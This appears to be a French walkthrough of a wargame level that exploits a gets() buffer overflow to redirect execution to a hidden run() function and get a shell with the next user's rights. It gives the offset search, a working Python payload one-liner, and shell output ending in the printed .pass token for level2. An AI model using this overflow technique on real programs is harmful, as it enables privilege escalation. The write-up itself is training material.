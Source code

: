 ## Démarche
<!-- - La commande `readelf -r level1` nous donne des informations à propos du programme elf `level1` :
  
    ```
    Relocation section '.rel.dyn' at offset 0x2c0 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049788  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
    080497c0  00000605 R_386_COPY        080497c0   stdout

    Relocation section '.rel.plt' at offset 0x2d0 contains 5 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049798  00000107 R_386_JUMP_SLOT   00000000   gets
    0804979c  00000207 R_386_JUMP_SLOT   00000000   fwrite
    080497a0  00000307 R_386_JUMP_SLOT   00000000   system
    080497a4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
    080497a8  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main
    ``` -->

- La commande `objdump -d level1` nous permet de connaitre la constitution du programme :
  - On remarque une fonction `run` en plus du `main`:
     > 08048444 <run>:
  - Ainsi qu'un appel de `gets` dans le `main` : 
    >  8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>

    Cette fonction est déconseillée :
    `man gets`
    > SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds
     checking, and the inability for the calling program to reliably determine
     the length of the next incoming line, the use of this function enables mali-
     cious users to arbitrarily change a running program's functionality through
     a buffer overflow attack.  It is strongly suggested that the fgets() func-
     tion be used in all cases.  (See the FSA.)

- Dans gdb, avec peda (`source /tmp/peda/peda.py`- cf level0)
  - `disass main` :
    ```
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave
    0x08048496 <+22>:	ret
     ```
  - `disass run` :
    ```
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret
    End of assembler dump.
    ```

  - En lançant le debug avec un breakpoint sur le main (`br main`) puis en sautant jusqu'à l'adresse de la fonction run (`jump *0x08048444`), on obtient l'ouverture d'un shell avec les droits level1 :
    ```
    Good... Wait what?
    [New process 4468]
    process 4468 is executing new program: /bin/dash
    $ whoami
    [New process 4469]
    process 4469 is executing new program: /usr/bin/whoami
    level1
    $ [Inferior 4 (process 4469) exited normally]
    ```
    <!-- - `(python -c 'print("\xef\xbe\xad\xde")' ; cat) | ./level1` -->

  - Pour exploiter la faille de la fonction gets, trouver quelle taille permet d'overflow le buffer :
    - Créer un pattern avec la fonction `pattern create 100` de peda.
    - Lancer le programme avec le pattern sur l'entrée standard :
      
      `run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")')`
      On obtient bien le segfault attendu.
    - Chercher l'emplacement du pattern en mémoire avec `pattern search` :
        > EBP+0 found at offset: 72
        > 
        > [EBP] --> offset 72 - size ~28
    <!-- - Placer un breakpoint sur la fonction run avec `br run` (ceci nous donne aussi son adresse : `Breakpoint 1 at 0x804844a`) -->
    <!-- - Relancer le programme avec une chaine comportant 72 + 4 caractères puis l'adresse de run (inversée) : -->
      <!-- `r < <(python -c 'print "\x90"*76+"\x4a\x84\x04\x08"')` -->

- Dans la Vm :
  - générer une chaine de 72 + 4 (taille du pointeur) caractères suivie de l'adresse de la fonction `run` (0x08048444 inversée car système little endian) et la passer sur l'entrée standard du programme :
    `(python -c 'print "A"*76+"\x4a\x84\x04\x08"' ; cat) | ./level1`

    Un nouvel shell est exécuté avec les droits user level2 :
      ```
      Good... Wait what?
      whoami
      level2
      pwd
      /home/user/level1
      cd ../level2
      pwd
      /home/user/level2
      ls
      level2
      ls -la
      total 17
      dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
      dr-x--x--x  1 root   root    340 Sep 23  2015 ..
      -rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
      -rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
      -rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
      -rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
      -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
      cat .pass
      53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
      ```

<br>
----
## Ressources

- [Return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [Buffer Overflow Attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)
- [Managing inputs for payload injection](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
- [Check Endian system](https://serverfault.com/questions/163487/how-to-tell-if-a-linux-system-is-big-endian-or-little-endian)


<!-- - [PLT call in ELF programm](https://stackoverflow.com/questions/25667205/what-exactly-does-putsplt-mean) -->
<!-- - [RELRO - Memory Corruption Mitigation Technique](https://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html) -->
<!-- - [Mémoire - protection : RELRO](https://www.root-me.org/fr/Documentation/Applicatif/Memoire-protection-RELRO) -->